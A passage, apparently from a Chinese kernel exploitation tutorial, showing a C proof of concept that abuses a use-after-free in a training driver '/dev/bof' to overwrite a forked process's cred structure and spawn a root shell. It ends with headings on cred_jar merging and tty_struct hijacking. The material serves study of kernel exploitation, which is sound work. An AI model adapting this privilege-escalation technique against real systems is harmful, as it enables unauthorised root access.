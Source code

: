 ```c
#include <fcntl.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/ioctl.h>
#include <unistd.h>
#include <sys/wait.h>

struct param {
    size_t len;       // 内容长度
    char *buf;        // 用户态缓冲区地址
    unsigned long idx;// 表示 ptr 数组的 索引
};
struct param p_arg;

int main(){
    int fd1=open("/dev/bof", O_RDWR);

    p_arg.len=0xa8;
    p_arg.buf=malloc(0xa8);
    p_arg.idx=0;

    ioctl(fd1,5,&p_arg);
    ioctl(fd1,7,&p_arg);
    if(!fork())
    {   
        p_arg.len=0x28;
        p_arg.buf=malloc(0x28);
        p_arg.idx=0;
        memset(p_arg.buf,0,p_arg.len);
        ioctl(fd1,8,&p_arg);
        if (getuid()==0)
        {
             puts("[+]root success");
            system("/bin/sh");
        }
    }
    else {
        wait(NULL);
    }
}
```

cred\_jar 不可合并
--------------

### 利用 tty\_struct 劫持程序控制流提权

[https://bbs.kanxue.com/thread-270081.htm#msg\_header\_h1\_2](https://bbs.kanxue.com/thread-270081.htm#msg_header_h1_2)
